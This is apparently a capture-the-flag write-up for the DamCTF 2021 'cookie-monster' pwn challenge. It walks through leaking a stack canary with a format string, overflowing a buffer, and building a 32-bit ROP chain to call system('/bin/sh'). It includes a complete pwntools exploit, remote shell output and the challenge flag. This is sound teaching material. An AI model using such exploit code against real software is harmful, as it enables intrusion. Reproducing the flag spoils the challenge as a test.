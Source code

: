 # DamCTF 2021 

## pwn/cookie-monster

> Do you like cookies? I like cookies.
> 
> `nc chals.damctf.xyz 31312`
>
> Author: BobbySinclusto
> 
> [`cookie-monster`](cookie-monster)

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _stack-canary_ _format-string_ _rop_


## Summary

Leak stack canary with format string to enable buffer overflow and ROP FTW.

**UPDATE: Added detail on how to compute the location of the canary.**


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No PIE, Partical RELRO = Easy ROP, easy GOT overwrite.  x86 (32-bit) makes for even easier ROP (all args passed on stack).


### Decompile with Ghidra    

```c
void bakery(void)
{
  int in_GS_OFFSET;
  char local_30 [32];
  int local_10;
  
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  printf("Enter your name: ");
  fgets(local_30,0x20,stdin);
  printf("Hello ");
  printf(local_30);
  puts("Welcome to the bakery!\n\nCurrent menu:");
  system("cat cookies.txt");
  puts("\nWhat would you like to purchase?");
  fgets(local_30,0x40,stdin);
  puts("Have a nice day!");
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

A couple of vulns here; first there's `printf(local_30)` (no format string), we'll use this to leak the canary, and second there's `fgets(local_30,0x40,stdin)`, where `fgets` is reading in up to `0x40` bytes into a buffer that is `0x30` (`local_30`) bytes from the return address on the stack.  IOW, we have 16 bytes (15 really since fgets will replace the last byte with null) to write out a ROP chain.

If you check the binary there's some freebies in there to make this a lot easier.  First `system` is in the GOT, so we do not need to leak libc, and second `strings cookie-monster | grep bin/sh` returns, well, `/bin/sh`.

We'll only need 12 bytes for a ROP chain.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./cookie-monster')

if args.REMOTE:
    p = remote('chals.damctf.xyz', 31312)
else:
    p = process(binary.path)

p.sendlineafter(b': ',b'%15$p')
p.recvuntil('Hello ')
canary = int(p.recvline().strip(),16)
log.info('canary: ' + hex(canary))

payload  = b''
payload += (0x30 - 0x10) * b'A'
payload += p32(canary)
payload += (0x30 - len(payload)) * b'B'
payload += p32(binary.plt.system)
payload += p32(0)
payload += p32(binary.search(b"/bin/sh").__next__())

p.sendlineafter(b'?\n',payload)
p.interactive()
```

To leak the canary use the format string `%15$p`.

_Why `%15$p`?_

This can be easily computed once you know the offset.  Just add `(0x30 - 0x10) / 4` to the offset.

From the decompile output above `local_30` (buffer) is `0x30` bytes from the base of the stack frame, and `local_10` (canary) is `0x10` bytes from the base of the stack frame (these are Ghidra conventions).  `(0x30 - 0x10)` is the distance from the start of the buffer to the canary.  `/4` computes the number of stack lines for x86 (32-bit).

To get the [buffer] offset, send `%xx%p` where `xx` is `01`, `02`, ... until you get a match, once there's a match, then you have the offset, e.g.:

```
# ./cookie-monster
Enter your name: %6$p
Hello 0xff938f78
```

Not a match.

```
# ./cookie-monster
Enter your name: %7$p
Hello 0x70243725
```

`0x70243725` is little endian ASCII hex for `%7$p`, a match, therefore the offset is 7.

`7 + (0x30 - 0x10) / 4 = 15`

With canary in hand, constructing the 32-bit ROP chain is just:

```
location of system
return address (we do not plan on returning here, so any value is fine)
first arg to system (location of string /bin/sh)
```


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/damctf2021/cookie-monster/cookie-monster'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chals.damctf.xyz on port 31312: Done
[*] canary: 0xb063cf00
[*] Switching to interactive mode
Have a nice day!
$ cat flag
dam{s74CK_c00k13S_4r3_d3L1C10Us}
```